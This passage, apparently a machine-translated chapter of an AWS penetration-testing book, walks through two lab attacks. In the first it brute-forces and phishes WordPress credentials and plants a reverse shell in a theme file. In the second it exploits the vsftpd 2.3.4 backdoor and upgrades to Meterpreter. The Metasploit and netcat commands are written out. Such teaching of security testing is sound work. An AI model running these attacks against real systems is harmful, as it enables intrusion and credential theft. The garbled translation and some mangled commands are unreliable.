# 九、将 Metasploit 和更多工具用于现实生活中的渗透测试

到目前为止，我们已经了解了各种服务是如何建立的，以及我们如何修改和利用它们，并且讨论了如何建议修复它们的简单解决方案。现在我们将非常有意义地向前迈进，并将应用我们的五旬斋知识。我们将使用 AWS 和 Metasploit 等工具帮助我们利用 AWS 环境中的漏洞。本章将介绍如何在真实环境中测试 AWS 环境的真实方法。

我们将对新系统进行一些基本设置，以模拟常见的漏洞，并查看我们在前几章中设置的一些图像。我们将介绍你可能会遇到的现实生活中的 pentesting 场景，以及一些有趣的练习，这些练习将教你一些新的战术和技巧。我们将通过探索 Metasploit 中的一些 AWS 模块来完成本章，这些模块允许我们列举可能导致进一步攻击和权限提升的敏感信息。

将本章视为之前所有章节的“技术”顶点。

在本章中，我们将介绍以下主题：

*   用 Metasploit 进行真正的 pentesting
*   五旬期预赛
*   将 WordPress 作为攻击目标
*   针对易受攻击的服务应用程序
*   探索 AWS Metasploit 模块

# 技术要求

本章的技术要求如下：

*   变质岩
*   Nmap
*   WordPress
*   EC2 实例
*   专有网络
*   亚马逊轻帆：[https://aws.amazon.com/lightsail/](https://aws.amazon.com/lightsail/)
*   钓鱼工具：[https://github.com/xHak9x/SocialPhish](https://github.com/xHak9x/SocialPhish)

查看以下视频以查看代码的运行：[https://bit.ly/3kPcjNL](https://bit.ly/3kPcjNL)

# 与 Metasploit 进行真正的 pentesting

在本书中，我们对**Metasploit**进行了大量讨论，甚至还使用了 Metasploit 中的一些模块来帮助我们评估本书中的各种练习——然而，这些例子只是粗略地描述了 Metasploit 到底是什么，以及它在云计算中的 pentesting 和道德黑客行为的潜力。

Metasploit 对我们 pentesting 社区的一些人的评论褒贬不一，因为它有助于自动化我们的许多流程，并且在依赖自动化工具帮助您进行 pentest 时，可以被认为是廉价的或脚本小子。然而，Metasploit 来自一个以挥霍金钱为生的人，它提供了一个巨大的优势，可以自动处理许多枯燥和简单的事情，并且允许您专注于评估中更详细的部分，这些部分需要更手动的方法。在本章中，我们将看到如何利用 Metasploit，同时使用其他各种技术来帮助我们利用服务和系统。

重要提示

永远不要依靠一个工具来完成最重要的工作。作为 Pentester，我们的工作是有效地评估现实生活中的攻击者，同时评估目标组织的总体安全态势。

在本章中，我们将学习前面所有章节的知识，并使用实际测试期间可能遇到的真实场景将其应用到云环境中。

我们将采取两种方法：

*   白盒/功能测试
*   不了解黑盒测试

## 什么是功能测试？

在我们开始行动之前，我想先简单介绍一下功能测试是什么。这和白盒测试差不多；唯一的主要目标是确保环境中的应用程序和服务安全、充分地工作，而 pentesting 允许您查找更多问题，并发现什么时候功能不正确或不安全。

功能测试在云测试中起着关键作用，因为云测试需要不同的方法。随着安全性在服务提供商方面得到了很好的利用，云环境中发现的大多数问题都源自用户实现。在[*第 4 章*](04.html#_idTextAnchor171)、*利用 S3 bucket*等章节中，我们已经看到了第一手资料，过度许可的策略会导致什么，以及如何允许攻击者利用 S3 等服务。我们基本上是在应用同样的方法，已经有资格开始评估我们的环境。

拥有证书、寻找令人兴奋的资源和破绽的政策，让我们这些五分之一的人能够在坏人面前发现问题。确保 pentest AWS 时，pentest 团队具有一些经认证的访问权限，这将使他们能够在 AWS 环境中高效地执行功能测试，这一点至关重要。

我们将在本章末尾的*探索 AWS Metasploit 模块*章节 n 中了解更多功能测试。

## 在黑暗中进行黑盒测试

虽然我们在[*第 2 章*](02.html#_idTextAnchor056)*Pentesting and Ethical Hacking】*中提到了**黑盒测试**，但我想在这里再次简要提及，因为我们将在本章的场景中应用它。对于本章中的场景，云的黑盒测试意味着我们没有关于目标或其环境的任何细节。但是，我们至少知道目标主机的 DNS 或 IP–这可以节省时间并找到目标主机。

重要提示

黑盒测试有时可能是浪费时间，因为由于 pentest 团队事先不了解评估，所以大部分测试都花在列举信息上。

这意味着 pentest 团队需要自己走出去，进入应用程序和 AWS 云环境。这需要网络钓鱼和暴力手段来为 web 应用程序和 AWS 环境以及任何其他类型的社会工程查找凭据。我们可以使用本书和本章中所学的策略，帮助我们在本章中访问故意易受攻击的系统。

现在我们已经了解了将要执行的测试类型，让我们转向基于场景的测试。在我们开始之前，我们需要确保几件事情是有序的，并且在测试开始之前我们已经做好了准备。

# 五旬期预赛

在我们开始之前，我们需要确保我们的环境为五旬斋做好准备。这意味着我们需要确保我们的 AWS 网络已建立，并且我们使用的任何工具都已更新。除了本书中我们自己的环境之外，务必记住在 pentest 之前检查您的设置是否正确配置。如果您的设置没有正确准备，您可能会遇到一些问题，这些问题将阻止您成功进行 pentest；或者，至少，你会在五旬斋期间遇到一些挫折，这会让你远离五旬斋。

在本节中，让我们确保我们在正确的**虚拟私有云**（**VPC**）上，并且我们的目标已配置。这确保了我们可以直接访问其专用网络上的机器，并且在尝试访问 AWS 环境的内部时不应该遇到任何问题。我们还需要确保 Metasploit 是最新的，并且安装了最新的模块，以便我们可以使用它们来利用我们的 targets。

## 为清晰起见，重命名我们的 VPC

让我们继续并继续重命名我们的 VPC。请记住，VPC 充当虚拟私有云网络，我们正在与之合作的主机位于该网络中。我们一直在与同一 VPC 合作设置主机；然而，我们从未重命名它，因为它与我们的目标和任务无关。

要重命名 VPC，请登录 AWS 控制台并执行以下步骤：

1.  Search the term **VPC** in the main AWS console:

    

    图 9.1–搜索专有网络

2.  Click on **VPCs**:

    

    图 9.2–选择 VPCs 选项

3.  您将看到专有网络的列表。选择包含 Kali 实例的 VPC 并重命名。我们已将我们的**Pentest 游乐场**更名为：

图 9.3–重命名我们的专有网络

就这样！我们现在已经重命名了我们的 VPC，这将使事情更容易向前发展，因为我们可以自动将任何目标主机放置在该 VPC 内。接下来，让我们继续更新我们的主要工具 Metasploit。

## 更新 Metasploit

现在我们需要在继续 pentest 之前做最后一件事——我们需要继续在我们的 Kali Linux 机器上更新 Metasploit。我们将使用托管在 AWS 中的 Kali 机器，因此请确保已启动并访问该实例。要访问机器，请使用以下命令：

$ssh-i

一旦获得对 Kali 计算机的访问权，继续并键入以下命令以更新 Kali 主机中的 Metasploit 应用程序：

$apt 更新；apt 安装 metasploit 框架

让它运行一分钟并更新。完成后，系统会提示您，您可以继续前进。

现在，我们的环境已经准备好了，是时候开始一些真正的 pentest 场景了。以下场景模拟了模拟现实环境中常见问题的故意易受攻击的环境。我们还将进行一些其他练习，将 AWS 作为一个平台，以帮助提高您的 pentesting 知识，并帮助说明 AWS 在**pentesting**和**攻击性安全和**方面的一些能力。

# 针对 WordPress 进行利用

对于我们的第一个 pentest，我们将测试一个被称为 WordPress 的目标应用程序，这是一个非常流行的网站，用于快速、安全地撰写博客和构建网站。WordPress 网站成为 pentest 的目标并不罕见，因为它们相当灵活，而且启动起来非常简单——我们马上就会看到。如果你想了解更多关于 WordPress 的信息，请点击这里：[https://wordpress.com/](https://wordpress.com/) 。

现在，让我们看看实际场景是什么，我们被要求测试什么，以及如何测试它。

重要提示

测试要求因测试而异。某些目标可能只需要初始访问，而其他目标则需要完全的后期利用。这种情况完全取决于客户及其需求。

## 场景-获取未经授权的访问

在这个场景中，我们被要求瞄准 WordPress 网站，看看我们是否可以获得任何类型的访问。目标怀疑管理员很懒惰，并且实现了访问 web 应用程序和后端主机的弱凭据。因此，在目标的请求下，这意味着我们需要访问 web GUI，并通过反向 shell 访问主机系统。

我们可以通过两种不同的方法做到这一点，比如暴力强迫和社会工程。我们将使用 Metasploit 并使用开源工具在目标上执行网络钓鱼操作。获得凭据后，我们将访问应用程序，并尝试通过在 web 应用程序上设置后门来访问主机系统。

在开始 pentesting 之前，我们需要先安装一个带有 WordPress 的 web 服务器。我们可以使用名为**Lightsail**的服务相当快地执行此操作。

## 用光帆设定目标

我们将在设置服务器时使用一些不同的东西。在过去，我们使用 EC2 实例来配置主机和应用程序。现在，我们将使用名为**Lightsail**的服务，将整个部分自动化。

Lightsail 是 AWS 中的一项功能，允许我们在几分钟内构建应用程序。这对于需要在几分钟内启动并运行服务器和网站的管理员来说非常有效；然而，正如我们将在这个 pentest 场景中看到的，有时可能会出现一些常见的问题。通常，简单的凭证和过度许可的访问会打开易受攻击的门，使攻击者能够找到进入应用程序的方法！

现在，让我们担心用光帆将目标竖立起来。如果您愿意，您可以在这里找到更多关于 Lightsail 的信息：[https://aws.amazon.com/lightsail/](https://aws.amazon.com/lightsail/) 。

要启动，您需要登录您的 AWS 账户，网址为[AWS.amazon.com](http://aws.amazon.com)。登录后，您可以在此处进入 Lightsail:[https://lightsail.aws.amazon.com](https://lightsail.aws.amazon.com) 。

登录到 Lightsail 仪表板后，您需要创建一个实例，并将其配置为适合我们的易受攻击目标场景。以下步骤将帮助指导您完成此操作：

1.  点击**创建实例**。
2.  Select the **WordPress** application and build it on a Linux image:

    

    图 9.4–使用 WordPress 和 Linux 选择我们的 Lightsail 图像

3.  Now we need to choose a plan. Go with the **cheapest plan**, which gives you the first month free. You can cancel at any time:

    

    图 9.5–选择具有自由月选项以避免费用的计划

4.  Name your instance! In this case, we have named our instance **WordPress-Metasploit** to keep things simple:

    

    图 9.6–为熟悉度命名我们的实例

5.  Click **Create instance**.

    现在，我们应该有一个仪表板，并与我们的新实例一起运行！



图 9.7–我们的实例加载在 Lightsail 中

接下来，我们将使该实例易受攻击，以便能够攻击它。我们需要做的第一件事是登录并更改登录密码。当您到达 Lightsail 仪表板时，您将看到使用 SSH 进行**连接。单击该按钮将在 WordPress 主机中为我们提供一个 SSH 终端。**

让我们继续执行以下步骤来设置易受攻击的主机：

1.  Click **Connect using SSH**:

    

    图 9.8–连接到主机系统

2.  This will create an SSH window within your browser. Type **ls** in the Terminal to list any files and directories within the application:

    

    图 9.9–列出主机内的文件

3.  List out the application password file with the **cat** command:

    

    图 9.10–列出密码文件的内容

4.  Now that we have the password, let's go to the login address and use the password and username to log in to the web app. The address to log in will be at **http://<publiciP>/wp-login.php**:

    

    图 9.11–登录我们的 WordPress 主机

5.  Once logged in, go to the **Users** section, and click **Add New**:

    

    图 9.12–添加新用户

6.  Now, go ahead and create a new user called **admin** and set the password to **admin**:

    

    图 9.13–创建管理员帐户

7.  创建用户后，您需要确保它是**管理员**角色组的部分：



图 9.14–将管理员角色分配给我们的管理员帐户

现在，我们的目标是成功地设置一些易受攻击的问题，这些问题将允许我们发现应用程序中的弱点。请记住，我们只将应用程序设置为管理员，但我们将其作为 pentester 进行攻击。这意味着我们了解应用程序上的凭据。

让我们开始吧，开始 pentesting！

## 枚举目标

好了，现在阶段已经设置好，我们准备好开始我们的目标。我们需要做的是回到我们的 AWS Kali Linux 实例。一旦您访问了 Kali 主机，让我们开始扫描目标应用程序，看看我们发现哪些端口和服务是潜在的入口点：

$nmap-Pn-sV

输出结果如下所示：

图 9.15–扫描 WordPress 主机

如您所见，打开的端口和服务是 web 服务端口和 SSH。因为我们只被要求测试 WordPress 应用程序，所以我们可以继续，不必担心 SSH，因为从技术上讲它不在测试范围之内。

重要提示

始终记住保持在要求的测试范围内。超出范围可能导致罚款、收入损失、信任损失和诉讼。

现在我们知道我们可以访问端口**80**和**443**上的两个 web 端口，让我们开始前进，看看我们可以使用 Metasploit 中的 WordPress 模块从网站中列举什么。这是下一个合乎逻辑的步骤，因为我们已经知道目标主机是**WordPress**——如果我们不知道，我们将首先尝试通过浏览器访问该站点，以查看 web 服务端口上运行的是什么类型的应用程序。

以下命令将启动 Metasploit 并扫描我们的目标：

1.  Launch Metasploit:

    **$msfdb 运行**

    下一个屏幕截图将为您展示 Metasploit 终端的外观：

    

    图 9.16–启动 Metasploit

2.  Now, we need to go ahead and select a **scanning module** within **Metasploit** that will enumerate the version of **WordPress**:

    **$使用辅助/扫描器/http/wordpress_ 扫描器**

    这将产生以下输出：

    

    图 9.17–发现 WordPress 5.3.4

3.  看起来我们可能正在处理**WordPress**的过时版本。如果目标托管的是过时的应用程序，则这些应用程序可能存在漏洞，从而导致容易被利用和系统受损。现在，我们来看看与**5.3.4**相关的漏洞。您可以在此处找到与此版本相关的漏洞：[https://wpvulndb.com/wordpresses/53](https://wpvulndb.com/wordpresses/53) 。

我们没有发现任何突出的漏洞，所以现在我们可以继续，看看是否可以通过手动枚举发现任何用户名。

要开始枚举用户名信息，我们需要查看 WordPress 应用程序的登录页面。我们将通过输入随机用户名开始评估，直到找到与用户名完全匹配的用户名。这将允许我们使用已知用户名和密码列表对进行暴力攻击，而且所需时间更少，因为我们只需要搜索密码，而不需要搜索用户名。

首先，进入登录页面**http://<公共 dns>/wp-login.php**。一旦到达，就开始使用一些常用用户名登录页面。在本例中，我们将使用**根**和**用户**进行尝试。

让我们继续并开始：

1.  Input **root** as the username, and **password** for the password:

    

    图 9.18–找不到用户名

    如您所见，未找到用户名–这意味着此应用程序中不存在此用户名。

2.  Next, we will try to input **user** for the username:

    

    图 9.19–找到的用户名

    现在我们可以看到我们找到了用户名，因为提示告诉我们**密码不正确**。这意味着用户名是**有效的**，但密码是无效的——这意味着我们已经**找到了一个用户**！

    现在，我们知道用户 To.T1 用户用户名是有效的，让我们来看看我们如何使用 Meta ASTopIT 来自动化证书的简单发现。

3.  First, you need to create a file to put the username in. We can also use this file later if we find more usernames.

    继续打开**vi 文本编辑器**并将**用户**输入文件：

    **$vi wordpressUsers.txt**

    下一个屏幕截图突出显示打开**vi**终端，并在文件中放置**用户**一词。

    

    图 9.20–使用用户创建文件

4.  Next, we need to save the file. Type **:wq** to save and exit.

    我们很乐意使用我们的用户名文档；现在，我们只需要在目标主机上使用它。我们将再次依赖 Metasploit 来实现这一点。Metasploit 有一个登录枚举模块，可以帮助我们为发现的用户找到一些密码。启动 Metasploit 后，使用以下命令配置 Metasploit 模块以适合您的目标：

    **$usemodules/auxiliary/scanner/http/wordpress\u login\u enum**

    **$set PASS_FILE/usr/share/wfuzz/wordlist/general/common.txt**

    **$set USER\u 文件 wordpressUsers.txt**

    **$set RHOSTS<目标公共 dns>**

    **$run**

请注意，在下一个截图中，我们找到了用户**用户**：

图 9.21–暴力-强制和查找用户

如您所见，我们找到了用户和密码。下一个屏幕截图突出显示密码为**admin**：

图 9.22–发现密码

干得好！我们已成功收集 WordPress 应用程序的凭据。虽然我们可以在这里停止枚举并继续尝试利用应用程序，但让我们采取另一种方法来获取其他凭据，以允许我们访问应用程序–毕竟，您拥有的凭据越多越好！

下一步，我们将尝试使用开放式 source 网络钓鱼工具通过网络钓鱼方案获取更多凭据。

## 针对凭证的网络钓鱼

本节的下一部分涉及我们向目标公司发送恶意链接，以试图获取额外的凭证，从而使我们能够访问 web 应用程序。**网络钓鱼**是一种**社会工程**攻击，包括发送恶意电子邮件，试图模仿合法电子邮件。总体目标是让用户单击电子邮件或应用程序中的链接或下载，然后在目标上安装恶意软件或收集信息。在我们的例子中，我们将使用它来收集额外的凭证。

重要提示

我们不会向参与此练习的任何人发送虚假电子邮件。我们假设发送了一封带有恶意链接的描述性电子邮件。

首先，我们需要抓取一个名为**社交网络钓鱼**的程序，并将其放在我们的**AWS Kali 主机**上。要获取应用程序，请使用以下命令：

$git 克隆 https://github.com/xHak9x/SocialPhish

在 Kali 机器上安装应用程序后，继续运行应用程序：

$bash socialphish.sh

接下来，按照以下步骤执行攻击：

1.  Now that the application is running, you'll need to ensure that you select the **WordPress** template:

    

    图 9.23–设置我们的网络钓鱼应用程序

2.  After selecting the **WordPress** template, move forward with putting the **tinyURL** into your browser. This will use the public DNS of your Kali host for access via the web:

    

    图 9.24–仿冒网络钓鱼链接的 WordPress 网站

3.  As you can see, we have what looks to be a normal WordPress site. We could deceive a user into putting their credentials into the input boxes, thus stealing the login information. Go ahead and use legitimate credentials from the WordPress application:

    

    图 9.25–发现的凭据

4.  输入凭证后，您将在终端上接收登录信息，并将其存储在系统上的文件中。

我们现在有了可以用来访问应用程序的凭据，所以让我们继续对 WordPress 应用程序进行更多的测试，看看我们能做些什么。

## 进入 WordPress

这是评估的最短部分。我们需要确保我们发现的凭据将允许我们访问该网页。务必尝试您发现的凭据，因为它们可能是**假阳性**的结果，或者在您尝试使用它们时会发生更改。

在本例中，我们将返回目标主机的登录页面，并使用我们发现的凭据：

图 9.26–WordPress 仪表板

如您所见，我们已成功访问该系统。现在我们已经有了访问权限，让我们继续尝试利用该应用程序并获得对底层 host 操作系统的访问权限。

## 利用并获得反向外壳

现在是时候来看看我们是否可以在目标应用程序上获得**反向 shell**和**保持持久性**。在易受攻击的 web 应用程序上获得持久性向目标客户展示了如何轻松地接管他们的系统。此外，这也是一个更可怕的问题，因为它可能难以检测，并允许未经授权的用户访问主机系统，这有时会导致完全的危害。

为了在目标上获得一个反向 shell，我们需要找到一些可以注入或放置可执行代码的区域：

1.  To start, let's go look at **Theme Editor**:

    

    图 9.27–WordPress 主题编辑器

2.  We will have quite a few templates to select from. Let's use **404 Template**:

    **http://<公共 DNS>/wp admin/theme editor.php？file=404.php&theme=twentytwenty**

    这可以看出如下几点：

    

    图 9.28-WordPress 主题编辑器及其代码

3.  We place the following code into the template. Set **Kali Public DNS** to your machine and set **port** to **443**. The code for this can be found here:

    [https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%209:%20Real-生命%20Pentesting%20 与%20Metasploit%20 和%20More/phpshell.php](https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%209:%20Real-Life%20Pentesting%20with%20Metasploit%20and%20More!/phpshell.php)

4.  Now, we need to start up **netcat** on our Kali Linux host to listen in on the connection:

    **$nc-lnvp 443**

5.  Now we need to attempt to access the full URL where our code is. We can do this by using the **curl** command:

    **$curl http://<公共 dns>/wp content/themes/twentytwenty/404.php**

    这将产生以下输出：

图 9.29–从目标主机反转外壳

好的，所以我们用我们奇特的有效载荷得到了一个**Netcat**外壳。然而，现在让我们通过得到一个**米计**外壳来简化事情！我个人觉得 MeterMeter 外壳更令人愉快，因为您可以将它们与 Metasploit 一起使用，并且它们具有典型外壳所不具备的额外功能。

为了获得米计外壳，我们将在 Metasploit 中使用 WordPress 漏洞。我们将使用评估期间发现的凭据以及 AWS Kali Linux 主机来捕获传入连接。

启动 Metasploit 后，使用以下命令加载模块并将其配置为以主机为目标：

**$使用漏洞/unix/webapp/wp\u 管理\u 外壳\u 上传**

**$设置密码管理员**

**$set username admin**

**$set rhosts<目标公共 DNS>**

**$set lhost<AWS 卡利公共 DNS>**

**$set lport 443**

**$run**

这将产生以下输出：

图 9.30–目标主机的米表反转外壳

如您所见，我们已经成功地通过**Netcat**外壳和**MeterMeter**外壳访问了主机操作系统。从外观上看，这个应用程序相当不安全，安全性非常低。现在，我们已经完成了对该应用程序的 pentest，是时候继续讨论这些问题了，以及您可以如何与其他讨论如何解决这些问题。

## 讨论问题

一旦五旬考试结束，你就必须与你的目标讨论在五旬考试中发现的一些问题。另外，非常重要的一点是，不要使用可能会让不懂技术的客户感到困惑的极端技术术语。让客户感到困惑或被技术术语弄得不知所措实际上会把客户赶走，他们可能不会推荐你参加另一次 pentest。

以下是我们将写给客户的声明，并将 pentest 调查结果附在声明中：

在 WordPress 应用程序的 pentest 期间，PenTester 成功地通过猜测和社会工程提取密码。社会工程涉及向用户发送恶意链接，希望其中一个用户点击该链接，并将其凭据输入类似于客户网站的内容。

在获得访问权限后，pentester 向前移动并在 web 应用程序中放置恶意代码，然后这些代码可用于授予对目标服务器的未经授权的访问权限。

建议客户培训其员工不要点击恶意链接，并且工程师不要对任何应用程序使用弱凭据。还建议审查密码策略，以防止将来创建简单的用户名和密码。如果您有任何问题，请告知，我们期待再次与您合作。

正如你所看到的，我们避免使用任何重科技的术语，并建议修复什么。这让目标客户明白，我们是来帮助他们的，我们将与他们合作解决他们的问题，最终巩固与客户业务的关系。

既然我们已经被一些有趣的 WordPress 黑客攻击弄得脏兮兮的，那么让我们看看在评估 AWS 环境时可能遇到的一些不同问题。接下来，我们将开始研究如何发现托管在 EC2 上的易受攻击的应用程序离子。

# 针对易受攻击的服务应用程序

**易受攻击的服务**是环境中最糟糕的事情之一，也是最容易修复的事情之一*，但并不总是最便宜的*。随着应用程序的老化，用于构建应用程序的代码也会老化，随着时间的推移，旧应用程序的漏洞也会老化。不幸的是，虽然简单地修补或更新旧软件听起来很容易，但实际上相当昂贵和耗时。更新应用程序可能需要大量的时间，并导致应用程序使用的服务无法正常运行。这意味着收入和可用性的损失。

在下一个场景中，我们将看到有 AWS 的网络上有漏洞的应用程序造成的实际损害。

## 场景——发现并攻击任何低垂的果实

在此场景中，客户机已为他们怀疑有漏洞的应用程序请求 pentest。此应用程序当前托管在其 AWS 环境中，可从万维网公开访问。客户机希望了解 web 应用程序是否易受攻击以及如何易受攻击，以及如果攻击者攻击该应用程序并获得访问权限，会持续出现哪些问题。

客户已告知我们该应用程序用于文件存储，因此我们可以假设它很可能是在端口**21**上运行的某种类型的**FTP**服务器。这就是我们将从五旬斋开始的地方。

当然，在我们做这件事之前，我们需要先把环境准备好，然后才能继续前进。

## 与社区 AMI 建立目标

为了开始，我们需要转到 EC2 控制台，可以通过 AWS 主控制台访问 EC2 控制台。访问 EC2 控制台后，单击**启动实例**快速启动并运行易受攻击的实例：

1.  After selecting **Launch instance**, let's select the **vsftpd-2-3-4-final** community AMI:

    

    图 9.31–启动我们的社区形象

2.  您需要确保该实例与其他正在运行的实例位于相同的**VPC**中。我们将把它放在我们的**Pentest 游乐场**专有网络中。
3.  跳到最后，生成密钥对，然后启动实例！

就这么简单，我们的实例已经准备就绪。但是，一定要给实例几分钟的时间来加载并获得分配给它的地址，以便我们能够访问它。

接下来，我们将继续我们的 pentest，看看我们可以在潜在的 vul 脆弱应用程序中发现哪些问题。

## 扫描打开的端口

像往常一样，我们希望**扫描**系统中的任何**开放端口**。尽管我们怀疑系统正在使用端口**21**，但我们希望检查任何其他端口，以防忽略某些内容。

在您的**AWS Kali**实例上启动**Metasploit**并使用以下命令选择和配置模块以端口扫描我们的目标：

$use 辅助/扫描仪/端口扫描/tcp

$set rhosts ec2-54-189-99-52.us-west-2.compute.amazonaws.com

这将为我们提供以下输出：



图 9.32–使用 Metasploit 扫描主机的端口

如您所见，我们在主机上打开了端口**22**和端口**21**。我们可以证实我们的怀疑，即港口**21**实际上是开放的。现在我们已经确认它是开放的，让我们继续收集更多关于端口**21**的信息。

## 弱势服务信息收集

接下来，我们需要确定在端口**21**上运行的应用程序和版本号。为了帮助我们发现这一点，我们将使用**nmap**扫描端口**21**并列举该服务的版本：

$nmap-sV-p21 ec2-54-189-99-52.us-west-2.compute.amazonaws.com

这将为我们提供以下输出：



图 9.33–使用 Nmap 扫描主机

现在我们知道了目标主机上托管的文件服务的版本。如您所见，**vsftpd 2.3.4**是系统上运行的应用程序的版本。让我们使用一个名为**SearchSploit**的程序来查看是否存在任何可用于攻击目标的漏洞：

$searchsploit vsftpd 2.3.4

这将为我们提供以下输出：

图 9.34-搜索漏洞

看起来有一个**Metasploit**模块，我们可以用来攻击我们的目标。我们现在有足够的信息来利用我们的目标，希望能够访问目标系统。

## 使用 Metasploit 进行整个系统接管

收集了所有关于目标的信息后，让我们开始换档并进入攻击模式。要攻击应用程序，我们需要启动 Metasploit 并配置模块以适应当前目标：

$use exploit/unix/ftp/vsftpd_234_ 后门

$set rhosts<target host=""></target>

美元剥削

这为我们提供了以下输出：

图 9.35–在目标主机上获取根 shell

如你所见，我们有一个根壳！这意味着我们可以完全控制我们的目标，并可以对系统上的所有内容进行更改。但是，我们的 shell 可以使用更多的**交互**。让我们玩一玩，将 shell 更新为**米表 shell**。为此，您可以通过在 shell 终端中键入单词**background**退出当前 shell。

现在我们回到 Metasploit 终端，让我们使用**shell_to_meterpreter**模块升级当前的 shell。以下内容将为我们选择和配置：

$use post/multi/manage/shell\u to\u 计量器

$set 会话 1

$set lhost

美元剥削

您将看到以下输出：

图 9.36–升级到流量计外壳

如您所见，我们现在有**2**个会话。第一个外壳是我们在利用**vsftpd**漏洞后获得的初始外壳，第二个外壳是我们新升级的外壳。要访问新的 MeterMeter 外壳，请使用以下命令：

$session-i 2

真棒–现在我们有了一个米计外壳，可以用来利用环境中更多的潜在问题。让我们继续讨论并执行一些常见的方法，您可以成功地利用这个特定的主机进行 more 道德黑客游戏。

## 开采后和弱化附加服务

太好了，我们现在可以访问我们的系统了——想看看我们还能做些什么吗？我们已经拥有根访问权限，因此这意味着我们可以对被攻击的目标执行几乎任何我们想要的操作。

在开始之前，让我们看看这个主机在什么网络上。现在我们已经利用了它，我们都可以访问专用 AWS 网络，并且可以使用**公共 IP**和**DNS**名称进行攻击。

重要提示

